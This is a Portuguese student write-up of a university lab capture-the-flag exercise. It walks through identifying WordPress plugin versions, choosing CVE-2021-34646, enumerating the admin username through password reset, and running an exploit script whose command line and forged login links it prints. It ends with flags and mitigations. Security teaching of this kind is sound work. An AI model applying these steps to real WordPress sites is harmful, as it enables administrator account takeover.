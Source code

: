 # CTF 1 - Semana 3

## Parte 1

Acedemos à página **http://ctf-fsi.fe.up.pt:5001**, que é um servidor WordPress. De seguida procuramos pelo site informações sobre as suas dependências, acabando por descobrir 3:

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3

De seguida, procuramos informações sobre os CVEs associados a cada plugin(versão correspondente). Acabamos por nos aperceber que o CVE-2021-34646 seria o mais adequado, pois permitia fazer login como outro utilizador. 

A resposta à primeira parte do CTF é então a seguinte: 

````
flag[CVE-2021-34646]
````

## Parte 2

Ao descobrir a vulnerabilidade do site, foi possível obter um script em Python para atacar o site. No entanto, para utilizar o script era necessário primeiramente fazer um pedido de reset de password. 

Como é possível descobrir se um username existe ou não quando se realiza um pedido de reset de password, testamos o username "admin". Verificando-se que este existe, realizamos o pedido de reset.
Como normalmente o id do admin é igual a 1, o próximo passo foi correr o script em python da seguinte maneira.

````
$ python3 script.py http://ctf-fsi.fe.up.pt:5001 1
````
Que nos deu estes resultados

````
#0 link for hash 1dc5a859697e220af9decfc1e158ebec:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMWRjNWE4NTk2OTdlMjIwYWY5ZGVjZmMxZTE1OGViZWMifQ

#1 link for hash e14231468781c7aad7137a611652e35a:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZTE0MjMxNDY4NzgxYzdhYWQ3MTM3YTYxMTY1MmUzNWEifQ

#2 link for hash 185893239b043ef2bcd6cf01b6007db4:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMTg1ODkzMjM5YjA0M2VmMmJjZDZjZjAxYjYwMDdkYjQifQ

````

O que o script faz é formar um link de validação de login com o token codificado através da hora atual.

Ao aceder a um destes links, temos então acesso à conta de administrador do site. 
De seguida seguimos o guião e encontramos a flag num post privado. 

````
flag{please don't bother me}
````


## Vulnerabilidades

Após a resolução deste CTF, foi possível concluir que tipo de melhorias seria necessário fazer para melhorar a segurança do site.

1. Manter sempre as versões das dependências atualizadas ou em versões estáveis(sem vulnerabilidades conhecidas)

2. Aquando o pedido de mudança de passe, não revelar a existência ou não existência de username/e-mail.Dizer apenas "foi enviado e-mail caso o e-mail/username exista".

